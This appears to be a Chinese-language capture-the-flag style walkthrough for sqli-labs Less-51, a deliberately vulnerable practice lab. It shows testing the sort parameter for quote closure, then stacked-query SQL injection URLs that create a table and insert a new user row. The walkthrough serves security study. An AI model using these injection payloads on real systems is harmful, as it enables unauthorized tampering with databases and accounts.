 ```yaml
---
title: Less - 51
date: 2023-03-22T13:26:28Z
lastmod: 2023-03-22T13:32:22Z
---
```


# Less - 51

---

# 通关教程

---

## 1、判断闭合

---

```http
?sort=1'
```

​![image](assets/image-20230322132851-w8vyfcg.png)​

根据错误显示判断闭合方式为'--+，并且为字符型注入

---

## 2、新建一张表

---

```http
http://192.168.23.128/sqli-labs/Less-51/?sort=1';create table test like users;--+
```

​![image](assets/image-20230322133054-6j9gu3i.png)​

---

## 3、新建一个用户

---

```http
http://192.168.23.128/sqli-labs/Less-51/?sort=1';insert into users values(18,'cmx','cmx')--+
```

​![image](assets/image-20230322133154-9jvmdfe.png)​

​![image](assets/image-20230322133220-uk870sp.png)​

‍
